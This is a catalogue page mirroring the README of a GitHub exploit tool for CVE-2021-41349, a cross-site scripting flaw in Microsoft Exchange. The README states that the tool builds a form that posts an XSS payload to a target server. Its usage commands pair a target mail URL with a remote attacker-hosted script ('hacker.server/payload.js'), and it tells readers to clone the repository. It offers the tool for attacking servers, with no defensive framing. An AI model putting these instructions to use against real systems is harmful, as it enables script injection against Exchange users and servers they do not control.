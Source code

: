 # CVE-2021-41349

Exploiting: CVE-2021-41349

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/exploit-io](https://github.com/exploit-io) |
| Url      | [https://github.com/exploit-io/CVE-2021-41349](https://github.com/exploit-io/CVE-2021-41349)                                               |
| Stars    | 9                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-41349* microsoft-exchange* vulnerability

</details>

## Readme

# Microsoft Exchange Exploit CVE-2021-41349
Exploiting: CVE-2021-41349
This exploiting tool creates a Form for posting XSS Payload to the target Exchange server.
You need to create a `js` containing your desire to do.

# Usage
1. Create Your `js` Payload and upload it somewhare.
2. run the `CVE-2021-41349.py` same as following steps.
```shell
python3 CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
or:
```shell
./CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
3. Upload The `html` file into server.
4. Done! Test it!

# Credits
* [@exploitio](https://twitter.com/exploitio)


## Get the content

```
git clone https://github.com/exploit-io/CVE-2021-41349
cd CVE-2021-41349
```

{% embed url="https://github.com/exploit-io/CVE-2021-41349" %}

<figure><img src="https://avatars.githubusercontent.com/u/71645666?v=4" alt=""><figcaption><p>exploit-io</p></figcaption></figure>
